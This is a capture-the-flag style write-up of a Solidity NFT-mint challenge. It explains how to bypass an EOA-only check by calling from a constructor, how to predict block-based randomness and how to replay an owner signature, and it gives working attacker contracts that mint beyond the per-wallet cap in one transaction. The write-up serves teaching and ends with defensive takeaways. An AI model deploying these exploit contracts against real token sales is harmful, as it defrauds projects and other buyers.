 # Solidity challenge VNFT.sol

## The objective

VNFT.sol is a ERC721 contract. The sale is capped at 2 tokens per wallet -- the goal is to exploit the sale by minting more than the allowed 2 NFTs per wallet, all in a single transaction.

## Overview

There are two functions to mint NFTs:

- function imFeelingLucky(address to, uint256 qty, uint256 number)
- function whitelistMint(address to, uint256 qty, bytes32 hash, bytes memory signature)

Both functions expect an address to mint and a quantity. `imFeelingLucky` additionally expects a number, while `whitelistMint` expects a hash and a signature.

Inspecting `imFeelingLucky` shows that it calculates a random number based on the blockhash, the block timestamp and the totalSupply:

```solidity
uint256 randomNumber = uint256(
    keccak256(
        abi.encodePacked(
            blockhash(block.number - 1),
            block.timestamp,
            totalSupply
        )
    )
) % 100;

require(randomNumber == number, "Better luck next time!");
```

The modulo division sets the range of the random number from 0 to 99. The random number is compared with function input `number`, if its the same, it will allow minting tokens.

Function `whitelistMint` only allows whitelisted wallets to mint, it does that by requiring a signature signed by the owner of the contract:

```solidity
require(
    recoverSigner(hash, signature) == owner(),
    "Address is not allowlisted"
);
```

## Vulnerability

Both functions have a vulnerability.

### imFeelingLucky

```
require((msg.sender).code.length == 0, "Only EOA allowed");
```

Above require statement ensures that only EOAs (externally owned accounts) are allowed to mint by checking that the code length of `msg.sender` is equal to zero. You can circumvent that check by including the necessary code in the constructor of your contract -- the code size of a smart contract at creation (so when the code in the constructor is executed) **is zero**:

```solidity
contract Attacker {
  constructor(address EOA, address vnft) {
    uint256 currentId = IVNFT(vnft).totalSupply();

    uint256 randomNumber = uint256(
      keccak256(
        abi.encodePacked(
          blockhash(block.number - 1),
          block.timestamp,
          currentId
        )
      )
    ) % 100;

    IVNFT(vnft).imFeelingLucky(address(this), 2, randomNumber);
    IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId++);
    IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId);

    selfdestruct(payable(EOA));
  }

  function onERC721Received(
    address,
    address,
    uint256,
    bytes calldata
  ) external virtual returns (bytes4) {
    return ERC721TokenReceiver.onERC721Received.selector;
  }
}

```

Above contract calculates the random number, mints 2 NFTs via `imFeelingLucky` and sends them to specified address. Function `onERC721Received` is needed because contract `VNFT.sol` uses `safeMint` for minting tokens.

### whitelistMint

As described, only whitelisted wallets can successfully mint by requiring a hash + signature signed by the owner. Usually you keep track of used signatures by saving them in an array and only allowing new signatures to be processed:

```solidity
require(!usedSignatures[signature], "Signature already used!");
...
usedSignatures[signature] = true;
```

This check is missing, allowing a signature replay attack

```solidity
constructor(
  address EOA,
  address vnft,
  bytes32 hash,
  bytes memory signature
) {
  uint256 currentId = IVNFT(vnft).totalSupply();

  IVNFT(vnft).whitelistMint(address(this), 2, hash, signature);
  IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId++);
  IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId);

  selfdestruct(payable(EOA));
}

```

Simply use a prior used signature to circumvent the whitelist check.

### Exploit in a single transaction

To exploit the sale by minting more than the 2 allowed tokens in a single transaction you have to write an attacker contract, which deploys several minting contracts, executing your exploit logic.

```solidity
function attack(address EOA) public {
  // deploy 5 smart contracts, each one is minting 2 nfts and sending those to address EOA
  for (uint256 i; i < 5; i++) new Attacker(EOA, address(vnft));

  // check if 10 NFTs were minted, if not, something went wrong
  require(vnft.balanceOf(EOA) == 10);
}

```

## Takeaways

- `require((msg.sender).code.length == 0` wont stop smart contracts from calling and executing a function, since code length during contract creation is zero
- Random numbers arent really random, since everything on the EVM is deterministic
- Keep track of used signatures to prevent signature replay attacks

## Further information

- [VNFT.t.sol](../test/VNFT.t.sol) for a test script exploiting the contract
- [Implementation](https://goerli.etherscan.io/address/0x85811aa24f3f75c8cfd07aa3fab7e6d20e3b29f7#code) from adriro
- [Implementation](https://github.com/JonathanAmenechi/ethernaut-challenges/blob/main/src/Exploit9.sol) from jon_amen

This exploit is inspired from the adidas NFT mint, which got exploited in a similiar way, where one user minted 328 more tokens than allowed, see [this](https://cryptonews.com/news/investor-purchases-330-adidas-nfts-using-smart-contract-328-more-than-cap.htm) link for more info.
